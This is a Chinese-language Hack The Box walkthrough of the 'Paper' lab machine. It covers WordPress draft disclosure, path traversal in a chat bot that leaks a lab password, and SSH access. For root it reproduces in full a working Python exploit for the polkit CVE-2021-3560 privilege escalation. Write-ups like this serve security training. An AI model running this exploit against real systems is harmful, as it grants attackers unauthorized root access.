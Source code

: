 ```yaml
---
title: Paper
date: 2022-02-25 15:35:53
tags: Hack The box
categories: 路径穿越漏洞
---
```


## 信息收集
可以看到目标端口只开放了ssh和web服务
![在这里插入图片描述](https://img-blog.csdnimg.cn/8a3867d4a1e345a5a11c281ff39e1f29.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
当我们访问web服务时，发现只是一个普通的apache搭建的页面。进行目录扫描时，发现一个`manual`页面，但是里面只有一些没价值的信息

<!--more-->

![在这里插入图片描述](https://img-blog.csdnimg.cn/07f9450ea45947e0af77ec195c369cf1.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
![在这里插入图片描述](https://img-blog.csdnimg.cn/74d839c7fc824a2a8af4b2c081cd01cf.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)

<!--more-->

但是在回应包中，我们看到了一个`office.paper`这样的域名，我们添加到hosts文件后尝试去访问一下
![在这里插入图片描述](https://img-blog.csdnimg.cn/b73a8b76a26d4ae289b29b6085ed2c11.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
打开页面后，我们发现是wordpress搭建的页面。我们果断使用wpscan工具扫描一下是否存在漏洞
![在这里插入图片描述](https://img-blog.csdnimg.cn/178c760fdb3e46848aa9a75498698290.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
发现wordpress的版本是`5.2.3`
![在这里插入图片描述](https://img-blog.csdnimg.cn/43583dd7ee5c46fa987f01ac6c04519b.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们在EDB上找到一个未经身份验证查看他人私人帖子的漏洞，去尝试一下是否能够成功利用。但是发现只出现404页面
![在这里插入图片描述](https://img-blog.csdnimg.cn/5edd974c3ea34e8c953c7d8c06a35033.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
尝试去掉order参数，成功显示出帖子的详细内容

```xml


test

Micheal please remove the secret from drafts for gods sake!

Hello employees of Blunder Tiffin,

Due to the orders from higher officials, every employee who were added to this blog is removed and they are migrated to our new chat system.

So, I kindly request you all to take your discussions from the public blog to a more private chat system.

-Nick

# Warning for Michael

Michael, you have to stop putting secrets in the drafts. It is a huge security issue and you have to stop doing it. -Nick

Threat Level Midnight

A MOTION PICTURE SCREENPLAY,
WRITTEN AND DIRECTED BY
MICHAEL SCOTT

[INT:DAY]

Inside the FBI, Agent Michael Scarn sits with his feet up on his desk. His robotic butler Dwigt….

# Secret Registration URL of new Employee chat system

http://chat.office.paper/register/8qozr226AhkCHZdyY

# I am keeping this draft unpublished, as unpublished drafts cannot be accessed by outsiders. I am not that ignorant, Nick.

# Also, stop looking at my drafts. Jeez!

```
从上面的内容中，我们可以得到了一个新的聊天系统网址`http://chat.office.paper/register/8qozr226AhkCHZdyY`。尝试访问发现是一个注册页面
![在这里插入图片描述](https://img-blog.csdnimg.cn/2c563f2f9ee4472180285e1333b6c03e.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
注册成功后我们进入了一个聊天窗口，
![在这里插入图片描述](https://img-blog.csdnimg.cn/ae192b2228ce4f5a8fea1614b00fe234.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
在这里有人说到，只要添加了一个`recyclops`这个新的机器人，机器人就会告诉你你想要问题的答案

```xml
 kellylikescupcakes Hello. I am Recyclops. A bot assigned by Dwight. I will have my revenge on earthlings, but before that, I have to help my Cool friend Dwight to respond to the annoying questions asked by his co-workers, so that he may use his valuable time to... well, not interact with his co-workers.
Most frequently asked questions include:
- What time is it?
- What new files are in your sales directory?
- Why did the salesman crossed the road?
- What's the content of file x in your sales directory? etc.
Please note that I am a beta version and I still have some bugs to be fixed.
How to use me ? :
1. Small Talk:
You can ask me how dwight's weekend was, or did he watched the game last night etc.
eg: 'recyclops how was your weekend?' or 'recyclops did you watched the game last night?' or 'recyclops what kind of bear is the best?
2. Joke:
You can ask me Why the salesman crossed the road.
eg: 'recyclops why did the salesman crossed the road?'
<=====The following two features are for those boneheads, who still don't know how to use scp. I'm Looking at you Kevin.=====>
For security reasons, the access is limited to the Sales folder.
3. Files:
eg: 'recyclops get me the file test.txt', or 'recyclops could you send me the file src/test.php' or just 'recyclops file test.txt'
4. List:
You can ask me to list the files
5. Time:
You can ask me to what the time is
eg: 'recyclops what time is it?' or just 'recyclops time'
```
## 漏洞利用
目前我们知道的信息是，我们有一个可互动的recyclops机器人，机器人可以帮我们获取文件内容，并且我们不能在频道内发言。我们尝试让它读取test.txt文件时，它说这个文件并不存在，但是却暴露出了当前所在的路径，那么我们可以尝试测试是否存在路径穿越的漏洞
![在这里插入图片描述](https://img-blog.csdnimg.cn/f56f488f29004c4ba948a413f0c78b38.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
经过我们的反复测试，我们发现了确实存在路径穿越漏洞
![在这里插入图片描述](https://img-blog.csdnimg.cn/5d4e7e5841fc4e34aa1a81f1c83dbf6c.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们查看一下当前目录上都存在哪些文件，很可惜没什么有价值的文件信息
![在这里插入图片描述](https://img-blog.csdnimg.cn/29f5abe791764b659abbc217771aa19a.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
那我们再查看上一级目录的文件信息
![在这里插入图片描述](https://img-blog.csdnimg.cn/709be64a7a4840d6ac7b8856966c9fe3.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
发现存在一个user.txt文件，尝试读取其内容却告诉我们权限不够
![在这里插入图片描述](https://img-blog.csdnimg.cn/8e0ca8de1430401d98f7d27fccac0641.png)
但是我们发现了一个十分有趣的目录`hubot`，发现目录里存在一个配置文件`.env`，在里面找到一个密码`Queenofblad3s!23`
![在这里插入图片描述](https://img-blog.csdnimg.cn/8811056432c040ffa50cd28396878e3a.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们尝试使用ssh连接是否能成功，账户使用`dwight`
![在这里插入图片描述](https://img-blog.csdnimg.cn/5edd446e145244249b04910ded3c123c.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
## 提权ROOT
这里提权挺迷的，但是还是有迹可循。我们查看进程时，发现存在一个`polkit`进程，这个应用是存在漏洞编号的，对应的漏洞编号为`CVE-2021-3560`
![在这里插入图片描述](https://img-blog.csdnimg.cn/957af5667a09416987dac45eaa386a79.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)

```python
import os
import sys
import time
import subprocess
import random
import pwd


print ("**************")
print("Exploit: Privilege escalation with polkit - CVE-2021-3560")
print("Exploit code written by Ahmad Almorabea @almorabea")
print("Original exploit author: Kevin Backhouse ")
print("For more details check this out: https://github.blog/2021-06-10-privilege-escalation-polkit-root-on-linux-with-bug/")
print ("**************")
print("[+] Starting the Exploit ")
time.sleep(3)

check = True
counter = 0
while check:
	counter = counter +1
	process = subprocess.Popen(['dbus-send','--system','--dest=org.freedesktop.Accounts','--type=method_call','--print-reply','/org/freedesktop/Accounts','org.freedesktop.Accounts.CreateUser','string:ahmed','string:"Ahmad Almorabea','int32:1'])
	try:
    		#print('1 - Running in process', process.pid)
		Random = random.uniform(0.006,0.009)
		process.wait(timeout=Random)
		process.kill()
	except subprocess.TimeoutExpired:
    		#print('Timed out - killing', process.pid)
    		process.kill()

	user = subprocess.run(['id', 'ahmed'], stdout=subprocess.PIPE).stdout.decode('utf-8')
	if user.find("uid") != -1:
		print("[+] User Created with the name of ahmed")
		print("[+] Timed out at: "+str(Random))
		check =False
		break
	if counter > 2000:
		print("[-] Couldn't add the user, try again it may work")
		sys.exit(0)


for i in range(200):
	#print(i)
	uid = "/org/freedesktop/Accounts/User"+str(pwd.getpwnam('ahmed').pw_uid)

	#In case you need to put a password un-comment the code below and put your password after string:yourpassword'
	password = "string:"
	#res = subprocess.run(['openssl', 'passwd','-5',password], stdout=subprocess.PIPE).stdout.decode('utf-8')
	#password = f"string:{res.rstrip()}"

	process = subprocess.Popen(['dbus-send','--system','--dest=org.freedesktop.Accounts','--type=method_call','--print-reply',uid,'org.freedesktop.Accounts.User.SetPassword',password,'string:GoldenEye'])
	try:
    		#print('1 - Running in process', process.pid)
    		Random = random.uniform(0.006,0.009)
    		process.wait(timeout=Random)
    		process.kill()
	except subprocess.TimeoutExpired:
    		#print('Timed out - killing', process.pid)
    		process.kill()

print("[+] Timed out at: " + str(Random))
print("[+] Exploit Completed, Your new user is 'Ahmed' just log into it like, 'su ahmed', and then 'sudo su' to root ")

p = subprocess.call("(su ahmed -c 'sudo su')", shell=True)
```
我们将脚本上传到目标主机上运行
![在这里插入图片描述](https://img-blog.csdnimg.cn/81867cb04d4a4523b628cfbe041c54e5.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
